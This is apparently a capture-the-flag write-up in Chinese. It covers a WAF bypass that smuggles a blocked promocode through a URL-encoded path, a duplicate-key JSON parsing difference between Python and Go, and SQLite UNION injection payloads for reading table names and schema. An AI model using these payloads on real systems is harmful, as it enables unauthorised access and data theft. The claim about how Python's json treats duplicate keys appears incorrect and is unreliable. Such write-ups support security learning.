

### 1,  golang main.go /gettoken接口，只有当promocode参数是FREEWAF时，才返回token. 但waf.py 对/gettoken请求参数promocode=FREEWAF时，直接400返回
```
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})
```
通过 /gettoken%3fpromocode=FREEWAF?promocode=111&creditcard=222 发送到waf.py, 

requests.get请求到golang main.go时，请求变成：
    ```
    /gettoken?promocode=FREEWAF&promocode=111&creditcard=222
    ```，成功获取token.
      
  

### 2,  Golang github.com/buger/jsonparser 与 python json 解析json 
    eg. {"t1":"1", "t2":"2", "t1":"3"} 字符串：

    python json会解析成 {"t1":"1", "t2":"2"}
    
    Golang github.com/buger/jsonparser 解析成 {"t1":"3", "t2":"2"}
  


### 3， sqlite3 sql 注入
     获取table name：
     datandard1' union select tbl_name, 2,3,'4' from sqlite_master where type='table'--
     获取列名：
     datandard1' union select sql, 2,3,'4' from sqlite_master--
     获奖flag

     
